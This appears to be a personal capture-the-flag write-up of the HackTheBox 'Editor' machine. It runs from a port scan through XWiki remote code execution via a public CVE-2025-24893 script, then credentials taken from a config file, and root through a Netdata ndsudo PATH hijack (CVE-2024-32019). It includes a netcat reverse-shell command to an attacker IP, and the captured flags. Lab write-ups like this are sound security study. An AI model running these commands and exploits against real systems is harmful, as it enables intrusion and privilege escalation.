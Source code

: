 # Editor (HackTheBox)


## Rustscan 
- ```rustscan -r 1-65535 -a 10.10.11.80 -- -sV -o rustscan.out```

## Output 
```
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack nginx 1.18.0 (Ubuntu)
8080/tcp open  http    syn-ack Jetty 10.0.20
```

## Web Enumeration

- Exploit db has a RCE I can do
- No metasploit
- ```https://github.com/gunzf0x/CVE-2025-24893/tree/main?source=post_page-----2128149b1929---------------------------------------```
- First approach
- After trial and error I was able to get this to work ```python3 CVE-2025-24893.py -t 'http://10.10.11.80:8080' -c 'busybox nc 10.10.14.6 4444 -e /bin/bash'```
- and then 
```
Listening on 0.0.0.0 4444
Connection received on 10.10.11.80 35144
id
uid=997(xwiki) gid=997(xwiki) groups=997(xwiki)
```
- then
```
export TERM=xterm

which python3

python3 -c 'import pty; pty.spawn("/bin/bash")'

stty raw -echo; fg

export SHELL=/bin/bash
stty rows 38 columns 116 
```

## Post exploit
- I used ```https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS```
- and got creds
- found the creds in ```/etc/xwiki/hibernate.cfg.xml```
- I did a ssh or a su into ```oliver``` and was able to find the userflag
- ```833ba87141bd759470d02ec60e2eb9c1```


## Priv ex
- oliver has like no perms to do anything
- Since I now had SSH access, I moved on to exploring internal services through port forwarding
```
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:8125          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:44611         0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:19999         0.0.0.0:*               LISTEN     
tcp6       0      0 :::80                   :::*                    LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
tcp6       0      0 127.0.0.1:8079          :::*                    LISTEN     
tcp6       0      0 :::8080                 :::*                    LISTEN     
udp        0      0 127.0.0.1:8125          0.0.0.0:*                          
udp        0      0 127.0.0.53:53           0.0.0.0:*        
```

- Now time to make a ssh tunnel to see whats up ```ssh -L 19999:127.0.0.1:19999 oliver@10.10.11.80```
- checked wappalyzer since i hadent before and found that *CVE-2024–32019* would work
- ```https://github.com/netdata/netdata/security/advisories/GHSA-pmhq-4cxq-wj93?source=post_page-----2128149b1929---------------------------------------```
- This vulnerability affects the ndsudo binary that ships with Netdata. It allows a Local Privilege Escalation (LPE) by exploiting an insecure PATH environment variable.

- We can create a fake nvme binary, which gets executed instead of the real one when ndsudo tries to call nvme-list.
- ```https://github.com/AliElKhatteb/CVE-2024-32019-POC?source=post_page-----2128149b1929---------------------------------------```
- check the c program for other notes
- and compiled with ```x86_64-linux-gnu-gcc -o nvme exploit.c -static```
- also run on the home machine lol
- scp nvme oliver@10.10.11.80:/tmp/
- then move nvme to his home dir
- allow the port 
- then run nc 
- then the command and root!

## Finally
- check /root/
- ```aecef68e7fe19915996e9ff2650aa1b3```